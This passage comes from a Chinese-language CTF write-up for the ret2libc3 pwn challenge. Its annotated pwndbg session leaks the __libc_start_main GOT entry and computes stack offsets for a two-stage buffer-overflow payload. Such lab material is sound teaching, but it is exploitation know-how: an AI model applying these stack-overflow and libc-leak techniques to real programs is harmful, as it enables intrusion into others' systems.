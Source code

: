 - gdb调试，使用保存在`input`文件中的第一个payload作为输入

```assembly
$ gdb ret2libc3 -q
pwndbg> b *0x0804868A   ; 断点下在了gets调用的地方
Breakpoint 1 at 0x804868a: file ret2libcGOT.c, line 27.
pwndbg> r < input
Starting program: /home/kali/CTF/pwn/ret2libc3 < input
No surprise anymore, system disappeard QQ.
Can you find it !?
Breakpoint 1, 0x0804868a in main () at ret2libcGOT.c:27
27      ret2libcGOT.c: No such file or directory.
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────────
 EAX  0xffffd3bc —▸ 0xf7fecd66 (_dl_sysdep_start+1462) ◂— mov    eax, dword ptr [esp + 0x6c] ; 字符串s的地址
 EBX  0x0
 ECX  0x12
 EDX  0xffffffff
 EDI  0xf7faf000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1e4d6c
 ESI  0xf7faf000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1e4d6c
 EBP  0xffffd428 ◂— 0x0 ; 0xffffd3bc - 0xffffd428 = -108 # 计算第一次payload的偏移量 !!!!!!!!!!!!!!!!!!
 ESP  0xffffd3a0 —▸ 0xffffd3bc —▸ 0xf7fecd66 (_dl_sysdep_start+1462) ◂— mov    eax, dword ptr [esp + 0x6c]
 EIP  0x804868a (main+114) —▸ 0xfffdb1e8 ◂— 0xfffdb1e8
──────────────────────────────────────[ DISASM ]──────────────────────────────────────────────────────
 ► 0x804868a <main+114>             call   gets@plt <gets@plt> ; 断点下在了gets调用的地方
        arg[0]: 0xffffd3bc —▸ 0xf7fecd66 (_dl_sysdep_start+1462) ◂— mov    eax, dword ptr [esp + 0x6c]
        arg[1]: 0x0
        arg[2]: 0x1
        arg[3]: 0x0
..................................................; 省略一大段无关紧要的输出
pwndbg> c ; 程序继续，将在第二次执行gets时断下
Continuing.  ;下面这一行就是前面payload的功能，输出 libc_start_main_got
@▒▒▒▒▒Ƅ       ; libc_start_main_got: 0xf7de8d40 @=0x40 b=0x62 #这个b是怎么回事就不知道了....也不确定是不是b
No surprise anymore, system disappeard QQ. ; 第二次执行 main
Can you find it !?
Breakpoint 1, 0x0804868a in main () at ret2libcGOT.c:27
27      in ret2libcGOT.c
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────────────[ REGISTERS ]───────────────────────────────────────────────
*EAX  0xffffd3cc ◂— 0x1 ; 上次断点时为 0xffffd3bc
 EBX  0x0
 ECX  0x12
 EDX  0xffffffff
 EDI  0xf7faf000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1e4d6c
 ESI  0xf7faf000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1e4d6c
*EBP  0xffffd430 ◂— 0x41414141 ('AAAA') ; 上次断点时为 0xffffd428 ; 0xffffd3cc - 0xffffd430 = -100 ; 第二次payload偏移量计算 !!!!!
*ESP  0xffffd3b0 —▸ 0xffffd3cc ◂— 0x1
 EIP  0x804868a (main+114) —▸ 0xfffdb1e8 ◂— 0x0
```
